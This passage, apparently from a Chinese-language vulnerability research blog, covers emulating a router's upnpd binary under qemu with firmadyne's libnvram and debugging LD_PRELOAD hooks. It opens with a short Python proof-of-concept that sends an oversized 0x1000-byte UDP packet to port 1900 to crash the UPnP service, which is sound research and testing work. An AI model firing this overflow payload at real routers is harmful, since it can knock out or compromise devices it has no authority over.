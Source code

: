 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660388173176-068015b6-6922-40f7-87a2-e914fefa39a0.png)

同样来一下exp：

```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(('192.168.1.1', 1900))         # 改ip为192.168.1.1
s.send(0x1000*b'a')
s.close()          
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660388383492-9dda7950-2f13-4d23-b264-239673600aef.png)

恢复刚才备份的快照，下面我们来钻研一下问题的根因。

#### 研究问题
我一开始想的是是不是环境变量的传递出现了问题，导致LD_PRELOAD的hook失败，但是考虑到前面我们已经见到了libnvram的部分变量的成功，肯定不是这个问题。经过我一番摸索，将`firmadyne_libnvram_version_2.so`重命名为`libnvram.so`并移动到到`/usr/lib/`目录下（记得将原来的`/usr/lib/libnvram.so`备份），再次尝试：

```bash
$ sudo chroot . ./qemu-arm-static ./usr/sbin/upnpd
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660441778531-f9488c2a-8c0b-48e9-88ae-082e5d7746e3.png)

> + 此处的完整log：[第五次hook日志.log](https://www.yuque.com/attachments/yuque/0/2022/log/574026/1660441860959-c65fb8be-2367-46c5-8480-04ce448b2911.log)
>

启动成功了，现在我们将范围缩小到了`LD_PRELOAD`和`libnvram`的身上，但究竟是谁的问题？正好，qemu有自带的strace功能，**<font style="color:#E8323C;">在第五次hook的基础上</font>**我们将命令改为：

```bash
$ sudo chroot . ./qemu-arm-static ./usr/sbin/upnpd
```

> + 此处的完整log：[第六次hook日志.log](https://www.yuque.com/attachments/yuque/0/2022/log/574026/1660442844236-627721cd-a6ea-4b00-8fcd-469a668547e7.log)
>

kill掉该进程后，将原版的libnvram换回去，执行：

```bash
$ sudo chroot . ./qemu-arm-static -E LD_PRELOAD=/firmadyne_libnvram_version_2.so ./usr/sbin/upnpd
```

> + 此处的完整log：[第七次hook日志.log](https://www.yuque.com/attachments/yuque/0/2022/log/574026/1660442863941-ff6f2bc7-5d45-43f0-9f8a-49f669d335bf.log)
>

第七次的hook日志要比第六次的长很多，使用vscode比较发现，前半部分和后半部分执行结果基本上相同：

![前半部分](https://cdn.nlark.com/yuque/0/2022/png/574026/1660442959012-aab57682-3839-43b0-b47a-fcd513bb2c80.png)

![后半部分](https://cdn.nlark.com/yuque/0/2022/png/574026/1660442989943-76d259ff-b1a0-46cd-9ff3-a58b66c51553.png)
